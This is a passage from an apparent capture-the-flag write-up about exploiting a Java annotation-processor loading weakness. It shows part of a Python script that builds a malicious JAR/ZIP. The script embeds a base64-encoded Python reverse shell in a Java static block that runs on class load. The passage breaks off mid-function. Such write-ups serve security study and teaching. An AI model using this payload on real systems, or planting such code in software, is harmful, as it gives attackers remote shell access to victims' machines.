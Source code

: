 This is actually similar to the Real World 4 CTF: Secured Java challenge:
https://www.kalmarunionen.dk/writeups/2022/rwctf/secured-java/. To exploit this, an annotation
processor can be set in a JAR file within the classpath. An exploit implementing the attack from the
writeup to generate a malicious ZIP file containing the JAR file can be written as follows.

```python
  98   │ PYTHON_REVSHELL = (
  99   │     "python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
 100   │     "s.connect((\"__IP__\",__PORT__));subprocess.call([\"/bin/sh\",\"-i\"],stdin=s.fileno()"
 101   │     ",stdout=s.fileno(),stderr=s.fileno())'")
 102   │
 103   │ PROCESSOR_TEMPLATE = '''package dk.kalmar;
 104   │ import java.util.*;
 105   │ import javax.lang.model.*;
 106   │ import javax.lang.model.element.*;
 107   │ import javax.annotation.processing.*;
 108   │
 109   │ public class ExploitProcessor extends AbstractProcessor {
 110   │     public static void execCmd(String cmd) throws Exception {
 111   │         Runtime.getRuntime().exec(cmd);
 112   │     }
 113   │
 114   │     static {
 115   │         try {
 116   │             execCmd("bash -c {echo,__REVSHELL__}|{base64,-d}|bash");
 117   │         } catch (Exception e) {
 118   │             System.out.println("Err: " + e.getMessage());
 119   │         }
 120   │    }
 121   │
 122   │     // These methods needs to be defined, but doesn't matter
 123   │     // as the above static block will run before anything else
 124   │     @Override
 125   │     public synchronized void init(ProcessingEnvironment env) { }
 126   │     @Override
 127   │     public boolean process(Set<? extends TypeElement> annotations, RoundEnvironment env) {
 128   │         return false;
 129   │     }
 130   │     @Override
 131   │     public Set<String> getSupportedAnnotationTypes() { return null; }
 132   │     @Override
 133   │     public SourceVersion getSupportedSourceVersion() { return null; }
 134   │ }
 135   │ '''
 136   │
 137   │ def generate_rce_zip(local_ip, local_port):
 138   │     '''Generates the RCE ZIP file.
 139   │     '''
 140   │     # Generate the reverse shell.
 141   │     revshell = PYTHON_REVSHELL.replace('__IP__', local_ip).replace('__PORT__', str(local_port))
 142   │     revshell = base64.b64encode(revshell.encode()).decode()
 143   │     processor_class = PROCESSOR_TEMPLATE.replace('__REVSHELL__', revshell)
 144   │
 145   │     # Create a temporary directory to create the ZIP file structure.
 146   │     tmpdir = tempfile.TemporaryDirectory()
 147   │     tmpdirname = tmpdir.name
 148   │     log.info('Created temporary directory: {}'.format(tmpdirname))
 149   │     open("{}/ExploitProcessor.java".format(tmpdirname), 'w').write(processor_class)
 150   │     Path(tmpdirname + "/dep/META-INF/services/").mkdir(parents=True, exist_ok=True)
 151   │     Path(tmpdirname + "/dep/dk/kalmar/").mkdir(parents=True, exist_ok=True)
```